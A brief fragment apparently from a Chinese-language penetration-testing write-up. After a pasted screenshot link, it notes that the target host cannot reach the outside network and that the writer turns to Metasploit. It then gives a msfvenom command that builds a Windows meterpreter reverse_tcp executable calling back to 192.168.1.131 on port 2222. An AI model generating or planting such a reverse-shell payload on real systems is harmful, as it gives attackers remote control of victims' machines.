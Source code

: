 ![](../../attaches/Pasted%20image%2020220914191925.png)
发现无论如何都不出网，尝试用msf生成木马
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.131 LPORT=2222 -f exe > shell.exe
```